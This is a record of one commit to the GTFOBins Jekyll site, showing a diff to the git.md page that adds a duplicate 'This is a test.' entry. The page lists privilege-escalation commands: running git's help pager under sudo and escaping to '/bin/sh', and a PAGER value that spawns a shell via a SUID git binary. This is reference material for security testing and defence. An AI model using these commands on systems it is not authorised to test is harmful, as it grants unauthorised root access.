

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/git.md, in a window 1280 px wide. Shown: the whole page at 85% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1182 px from its top, so only the background shows below that.

Commit message:
Update git.md

```diff
--- a/_gtfobins/git.md
+++ b/_gtfobins/git.md
@@ -16,6 +16,10 @@ functions:
       code: |
         sudo git branch --help config
         !/bin/sh
+    - description: This is a test.
+      code: |
+        sudo git branch --help config
+        !/bin/sh
   limited-suid:
     - code: PAGER='sh -c "exec sh 0<&1"' ./git -p help
 ---
```
